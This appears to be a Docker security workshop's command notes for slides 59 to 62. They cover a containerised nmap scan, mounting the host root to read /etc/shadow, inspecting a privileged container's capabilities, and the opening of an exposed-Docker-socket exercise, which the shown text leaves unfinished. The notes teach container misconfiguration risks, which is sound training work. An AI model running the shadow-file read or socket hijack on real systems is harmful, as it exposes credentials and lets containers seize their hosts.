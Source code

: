 Where's the output? (optional)
```
mkdir ~/vol_test && cd ~/vol_test/
```
```
docker run -v ~/vol_test:/output instrumentisto/nmap -sT -oA /output/test scanme.nmap.org 
```
```
ls -l ~/vol_test
```
```
cat test.nmap
```

### Slide 60 - Docker with root or etc mounted as volume

```
docker run -it -v /:/host alpine /bin/ash
```
```
cat /host/etc/shadow
```
```
exit
```

### Slide 61 - Docker running privileged containers

```
docker run -it --privileged ubuntu /bin/bash
```
```
apt update && apt-get install -y libcap2-bin
```
```
capsh --print
```
```
grep Cap /proc/self/status
```
```
capsh --decode=0000003fffffffff
```
```
exit
```

### Slide 62 - Exercise: Exposed Docker socket hijinx

```
docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/dash
```

```
cd var/run/ && ls -l
```

```
apt update && apt install -y curl socat
```
